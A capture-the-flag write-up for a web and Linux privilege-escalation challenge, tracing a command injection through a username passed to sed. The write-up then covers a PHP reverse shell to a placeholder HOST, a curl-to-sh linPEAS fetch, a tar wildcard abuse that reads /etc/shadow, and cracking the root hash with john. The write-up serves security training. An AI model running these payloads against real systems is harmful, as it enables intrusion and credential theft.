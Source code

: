 # Challenge
* Type: blackbox
* Authors: algorab, Sto
* Category: Web exploitation, Linux privilege escalation
* Description:
  - The kidnappers of Jojo have a new web platform! This will never end! You have to stop them now! Root their server, we need to save Jojo.
  - The flag is N0PS{root password}
  - Note: You will not receive any email from this challenge. If at any moment of the challenge you need to perform offline bruteforce attack, you can use rockyou.txt with best64.rule
  - Hints (unlock for 0 point):
    1. Have you accepted terms and conditions?
    2. Woops! I forgot my password
    3. This should help: https://owasp.org/www-community/attacks/Full_Path_Disclosure
    4. This should help: https://book.hacktricks.xyz/linux-hardening/privilege-escalation

# Recon
- When I connect to the site, I see a login form:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/b3940f77-252b-47c8-a910-cc291b8650b9)

- It has login, create account functions, and also forgot password.
- I think it's a SQL injection challenge, so I tried some payloads, but nothing work. After a while, I decide to create an account and login. A popup is shown:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/858b4523-9237-486c-820b-fecf38019557)

- Accept the Terms and conditions to reach other functions on the site. After that, a chat is shown. I see an account named `j0j0_admin123` on the chatbox. I can send them a message, so maybe it's a possible XSS here. I send them a simple payload:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/bbfb89f0-38e6-4058-845a-5dfaf57053ae)

- It's obvious that they HTML encoded my message before sending to chatbox, so XSS is not possible.
- The Home page seem not interesting here. When I access Terms and conditions, the previous popup is shown to me:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/5a1c23a1-10ff-4aa0-bbfa-f280aaaa19b9)

- At My profile, you can change your name here:
  
- Notice that my name appears at Terms and conditions popup, and I can change it, so it's a possible XSS:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/e25a8189-ac1a-4b96-b66e-9d765d046d37)

- But, nothing happened:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/fc85fa9b-2d22-468f-8cf4-7d4e9668d48e)

- The last function I didn't try is download the terms and conditions button. But when I download it:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/dd7b3f2c-61be-4e59-84c1-881803d2515e)

- It show me an command line error of [sed](https://www.gnu.org/software/sed/manual/sed.html) command, instead of the Terms and conditions, so I think something bad happened here. Maybe it's because of my name? I turn my name to original, and download the pdf again:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/f7778c5f-21cb-4d42-960a-0bdcbdf5c494)

- Everything is OK now, so I guess that the server use `sed` with my username for a command argument. So, it's a command injection here.

# Exploit
- First, I have to search on Google how to use `sed` command since I'm not familiar with it. According to the error I received at the first PDF, they use `sed -e`. Here are some example:
  ```shell
  sed -e 's/hello/world/' input.txt > output.txt
  echo "lmao this is funny" | sed -e 's/lmao/hehe/' # will output hehe this is funny 
  ```
- About this command, it's a powerful stream editor that allow you to search, delete, replace, extract text data line by line. This command is not vulnerable itself, but the server does not sanitize username before use is as an argument.
- Now I need to find a way to perform command injection.
## Command injection
- After a while of fuzzing, I found that the command line structure will look like:
  ```
  (some commands here) | sed -e 's/(username here)/(placeholder in PDF here)/' | (generate PDF here)
  ```

- To close the apostrophe character, my username will be:
  ```
  ' 2>/dev/null; echo "hacked";#
  ```
  - The `2>/dev/null` part is used to redirect syntax error to /dev/null
  - The hash character is to comment out the remain part of command line

- But, there still an error:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/5b012d6c-90e5-4912-adc0-4c2a4f63074d)

- After a while playing with `sed` command on my own laptop, I see that I have to close the command with a `/` character:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/ee8377a3-dd2f-42f6-8957-229681d1c4b5)
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/83316804-5949-4474-8ea2-e7243634bfdd)

- I added a `/` character before my username, but the error still here:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/25d2a357-dfdb-4441-b756-c303b67d91cf)

- It's fuzzing time again, and I find that we can use the `sed` command like this:
  ```shell
  echo "lmao this is funny" | sed -e s/lmao/hehe/ (no apostrophe)
  ```
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/a25ba8a3-c0bf-465b-a798-7259db684e54)

- I tried to remove the apostrophe and the /dev/null part (my username become `/; echo "hacked";#`, and receive:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/36314dc7-0f5e-4bb6-a675-fc7cd24b5a7f)

- Notice that the error with `sed` disappeared, but `echo` became `cho` for some reason. I tried to add an `e` to `echo`, and ...
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/2bf9f818-04ce-4cea-b301-619df23163cc)

  BOOM!!!

## Reverse shell
- As what a hacker do when they successfully perform command injection, I try to create a revshell for my convenience. I'm using ngrok here:
  ```shell
  ngrok tcp 1337
  (copy your HOST and PORT appeared on your terminal)
  ```
  Open another terminal:
  ```shell
  nc -nlvp 1337
  (setup a listener)
  ```
  Because it's a PHP server, and the server does not have Python or netcat installed, so I use a PHP reverse shell payload (from revshells.com):
  ```
  php -r '$sock=fsockopen("HOST", PORT);exec("sh <&3 >&3 2>&3");'
  ```
  Perform command injetion again:
  ```
  /; eecho "$(php -r '$sock=fsockopen("HOST", PORT);exec("sh <&3 >&3 2>&3");')";#
  ```
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/b029dafc-0885-4a0b-84c1-8b37a420df00)

## Local privilege escalation
- The goal is to read the root password, so we have to read /etc/shadow. But by default, we must have sudo or root privilege to read it.
- After a while checking the system, I found that I can download external resource using `curl`. I found a tool on [hacktrick](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
- Using [this tool](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), I can find attack vector easier. Just use the provided curl command:
  ```
  curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
  ```
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/23396030-5b0a-4c6f-994b-39e16b549bc1)

  Wait for it to run

- I see that there is a suspicious file in /opt, so I try to examine it:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/b78dd28b-44d4-4eea-9ad5-736ebf899116)
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/422ac4a8-5e22-4a39-8307-acb428627b63)

- The script is a backup cronjob. It first cd to /var/www/jojo_website, write the date to log file, then use `tar` to compress all the file in that directory and save as */root/jojo_backup.tar*. Notice that the `tar` command use wildcard *, so it's vulnerable to [tar wildcard injection](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/). It is ran by root, so we can abuse it
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/ebc6d1ec-f713-46bc-932f-fd60f95eaf61)

- I make some special file to abuse the wildcard:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/9ab859ea-71de-4ef8-b8cf-fdce7297853e)

- Wait for a while, and check the /tmp, you will see a file named *shadow_file*. Cat it and we'll have the content of /etc/shadow, include the line:
  ```
  root:O6w162b1Hlo0I:19870:0:99999:7:::
  ```

- Do not forget the /etc/passwd:
  ```
  root:x:0:0:root:/root:/bin/bash
  ```

## Password cracking
- On my machine, I unshadow the password of root, and received:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/661a2c91-9c67-4d7c-b938-5c7f8f5c96a7)

- Using `john` with rockyou.txt wordlist, and best64.rule set (the challenge tell me to do this), I found the root password:
  ```shell
  john --wordlist=rockyou.txt --rules best64.rule pass
  ```
- Received: `root:1badjojo:0:0:root:/root:/bin/bash`
- Password: `1badjojo`

# Flag
- The flag is: N0PS{1badjojo}
